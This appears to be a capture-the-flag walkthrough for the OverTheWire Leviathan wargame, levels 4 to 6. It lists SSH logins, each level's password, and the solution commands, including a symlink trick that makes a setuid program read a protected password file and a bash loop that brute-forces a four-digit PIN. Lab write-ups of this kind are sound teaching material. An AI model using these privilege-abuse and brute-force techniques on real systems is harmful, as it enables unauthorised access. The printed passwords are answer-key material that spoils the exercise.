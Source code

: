 ## Level 4:
CMD:
```bash
ssh leviathan4@leviathan.labs.overthewire.org -p 2223
```
Passowrd:
```bash
WG1egElCvO
```
Solution:
```bash
ls -la
cd .trash
ls
./bin
```
Convert Binary to Chr using Python
```bash
echo "00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010" | python3 -c 'import sys; print("".join([chr(int(x,2)) for x in sys.stdin.read().split()]))'
```
**Password: 0dyxT7F4QD**

## Level 5:
CMD:
```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```
Passowrd:
```bash
0dyxT7F4QD
```
Solution:
```bash
ls -la
./leviathan5
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
**Password: szo7HDB88w**

## Level 6:
CMD:
```bash
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```
Passowrd:
```bash
szo7HDB88w
```
Solution:
```bash
ls -la
./leviathan6
./leviathan6 0000
mkdir /tmp/tmp12345
cd /tmp/tmp12345
nano bruteforce.sh
```
Bruteforcing script
```bash
#!/bin/bash
cd /home/leviathan6
for i in $(seq -w 0000 9999); do
    echo "Trying code: $i"
    ./leviathan6 $i | grep -q "Wrong" || { echo "Correct code: $i"; break; }
```